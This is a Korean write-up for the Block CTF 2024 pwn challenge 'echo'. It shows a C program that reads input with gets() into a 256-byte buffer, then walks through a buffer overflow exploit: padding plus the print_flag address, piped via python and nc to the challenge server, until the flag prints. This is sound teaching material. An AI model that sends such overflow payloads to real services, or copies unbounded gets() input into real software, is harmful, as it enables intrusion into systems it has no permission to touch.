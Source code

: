 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Block CTF 2024 #Pwn echo Write-Up</h1>
</body>
<br>
<br>
</html>

![image](https://github.com/user-attachments/assets/a3541a39-e399-490b-bda6-52f74e619a2f)

먼저 문제를 읽어보면 서버가 입력받은 내용을 그대로 되돌려주는 에코 서버에 대한 것 같다. 

이어서 ```echo.c```코드를 살펴보면

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

void print_flag() {
    puts(getenv("FLAG"));
    puts("^^ Flag!!111!!!! ^^");
}

void do_echo() {
    uint8_t echo_buffer[256] = {0};
    gets(echo_buffer);
    puts(echo_buffer);
}

int main(void) {
    puts("ECHO! Echo! echo!");
    do_echo();
    return 0;
}
```

```do_echo()``` 함수에서 ```gets()``` 함수가 ```echo_buffer``` 배열에 사용자 입력을 받아 저장하고, ```puts()```로 다시 출력하는 단순한 에코 기능이 구현되어 있다. 

그리고 가장 눈에 띄는 부분은 ```gets()``` 함수인데 ```gets()``` 함수는 버퍼 오버플로우 공격에 취약하다.

```gets()```는 입력된 데이터가 ```echo_buffer```의 크기(256바이트)를 초과하더라도 제한 없이 메모리에 계속 저장하므로, 이 버퍼 오버플로우를 이용해 ```print_flag()``` 함수를 실행할 수 있을 것 같다.

버퍼 오버플로우 공격을 수행하기 위해서는 ```print_flag()```함수의 주소가 필요하니 디버거(gdb)를 사용해서 ```print_flag()```함수의 주소를 찾아보았다.

![image](https://github.com/user-attachments/assets/d505ee95-7578-41cb-b4fc-b1f2c34b8acd)

이때 x86-64 시스템은 리틀 엔디안 형식을 사용하므로 찾은 ```print_flag()```의 주소 ```0x401176```를 입력할 때는 바이트 순서를 반대로 적어야 한다. 즉, ```\x76\x11\x40\x00```로 사용해야 한다.

본격적으로 버퍼 오버플로우 공격을 시도해 보자

아래 코드 처럼 ```echo_buffer```의 크기(256바이트)를 채운 후 ```return address```에 ```print_flag()```의 주소를 넣으면 된다.

```python
python3 -c 'print("A" * 256 + "\x76\x11\x40\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/e34ec419-aeb2-42f2-a150-1bf44f57827e)

그러나 flag 값이 나오지 않는다.

뭐가 문제인지 잘 모르겠어서 구글링을 해보니 패딩을 늘려가면서 ```return address```에 도달하는 확인해 볼수 있다고 한다. 

그래서 패딩을 264바이트로 늘려 시도해보았다.

```
python -c 'print("A" * 264 + "\x76\x11\x40\x00\x00\x00\x00\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/b2eb91e7-a9ba-4d90-ae74-d1931407d5e2)

flag를 찾았다!!!!!

flag{curs3d_are_y0ur_eyes_for_they_see_the_fl4g}
